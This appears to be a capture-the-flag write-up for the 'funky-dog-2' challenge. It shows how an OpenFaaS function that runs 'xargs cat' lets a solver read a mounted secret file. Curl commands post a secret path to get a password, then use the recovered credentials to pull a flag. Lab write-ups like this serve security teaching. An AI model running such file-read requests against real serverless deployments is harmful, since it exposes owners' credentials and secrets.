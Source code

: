 # funky-dog-2

## Description:

For this challenge we were given a url to a OpenFaaS function, along with the description:

---

We found the ip address Billy is using for his openfaas functions from the git repo.
It seems he made a new function called secret-vault:

[http://129.241.209.104:8080/function/secret-vault](http://129.241.209.104:8080/function/secret-vault)

Can you retrive his secret from the vault?

_Note: /ui/\* is NOT within scope_

---

Visting the site we get a 200 HTTP OK response with the text:

```
exit status 1
Traceback (most recent call last):
  File "/home/app/index.py", line 19, in <module>
    ret = handler.handle(st)
  File "/home/app/function/handler.py", line 15, in handle
    username, password = req.split(":")
ValueError: not enough values to unpack (expected 2, got 1)
```

OpenFaaS is mentioned in the description and the git repo from the previous challenge, so what is it? OpenFaaS is a open source serverless program that can run **any** CLI binary (with Docker) or function's written in languages like Python, Go, Javascript, etc..
To invoke a function in OpenFaaS we can make a POST request to the URL. Looking at the response from earlier, we can asume that the function wants an username and a password like this: "USERNAME:PASSWORD". We can try:

```bash
❯ curl -X POST http://129.241.209.104:8080/function/secret-vault -d 'username:password'
No you! Wrong password or username.
```

We have the username form the previous challenge (the flag of funky-dog-1), so we need a password. Since Billy leaked his "secret" username in his repo, maybe we can find something else that we can use.

Looking through his repo we can see what other functions he is running on OpenFaaS in the stack.yml file:

```yaml
provider:
  name: openfaas
  gateway: http://127.0.0.1:19999

functions:
  echo:
    lang: dockerfile
    handler: ./echo
    image: functions/faas-echo:latest
  dog:
    lang: dockerfile
    handler: ./Tester/dog
    image: functions/faas-dog:latest
    secrets:
      - secret-password
  hello-openfaas:
    lang: python3
    handler: ./hello-openfaas
    image: hello-openfaas:latest
```

Billy is mounting a secret to the "dog" function. Reading the [documentation](https://docs.openfaas.com/reference/secrets/) for OpenFaaS about secrets, we know that the secret is read in the Docker-container file-system from the location: "/var/openfaas/secrets/secret-name".

All the functions running on OpenFaaS can be accessed with the endpoint: "DOMAIN/function/NAME OF FUNCTION".
Trying [http://129.241.209.104:8080/function/dog](http://129.241.209.104:8080/function/dog) we only get a 200 OK response with no body/text.

Next we can find out what the "dog" function actually does:

```bash
❯ cat Tester/dog/Dockerfile
FROM openfaas/classic-watchdog:0.18.8 as watchdog

FROM alpine:3.11

COPY --from=watchdog /fwatchdog /usr/bin/fwatchdog
COPY /dog /home/app/dog
RUN chmod +x /usr/bin/fwatchdog

ENV fprocess="xargs cat"

RUN addgroup -g 1000 -S app && adduser -u 1000 -S app -G app
USER 1000

CMD [ "/usr/bin/fwatchdog"]
```

The function is running the Unix cat command! Now we can try to cat the contents of the "secret-password" mounted in the container.

```bash
❯ curl -X POST http://129.241.209.104:8080/function/dog -d '/var/openfaas/secrets/secret-password'
wellILoveDogsNotGonnaLie
```

Great! Now we have the username and password. Invoking the "secret-vault" function with the correct credentials gives us the flag:

```bash
❯ curl -X POST http://129.241.209.104:8080/function/secret-vault -d 'KID20{w1th_5_l0ng_sp3c14l_u5s3rn4m3_n0b0dy_c5n_h4ck_m3}:wellILoveDogsNotGonnaLie'
My little secret: KID20{4ll_my_c0d3_i5_fr0m_s74ck0v3rfl0w}
```
